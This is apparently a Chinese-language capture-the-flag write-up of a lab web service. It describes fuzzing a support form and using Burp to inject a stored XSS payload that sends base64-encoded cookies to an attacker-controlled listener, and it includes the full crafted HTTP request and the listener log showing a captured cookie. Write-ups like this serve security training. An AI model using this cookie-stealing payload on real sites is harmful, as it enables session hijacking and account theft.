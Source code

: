 
## web service

尝试访问 `http://10.10.11.8:5000/`

![img](img/image_20240336-213632.png)

点击 `For questions` 按钮的时候，将会重定向到 `http://10.10.11.8:5000/support`

![img](img/image_20240339-213926.png)

对输入的数据进行 fuzz 之后，唯一有可能的就是 XSS 攻击了，尝试植入 XSS 载荷

### XSS 植入

启动 Burp 监听，开启拦截，在页面上输入正常数据

![img](img/image_20240343-214334.png)

点击 Submit 之后，拦截到数据包

![img](img/image_20240344-214407.png)

对数据包进行编辑，植入 XSS 载荷

```plaintext
POST /support HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 154
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000 <img src=x onerror="fetch('http://10.10.16.3:9999/?'+ btoa(document.cookie))" ;/>
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/support
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

fname=admin&lname=admin&email=admin%40admin.com&phone=123456789&message=<img src=x onerror="fetch('http://10.10.16.3:9999/?'+ btoa(document.cookie))" ;/>
```

同时 `nc -lvnp 9999` 开启监听，即可收到

```bash
┌──(randark ㉿ kali)-[~]
└─$ sudo python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
10.10.11.8 - - [25/Mar/2024 22:45:34] "GET /?aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```
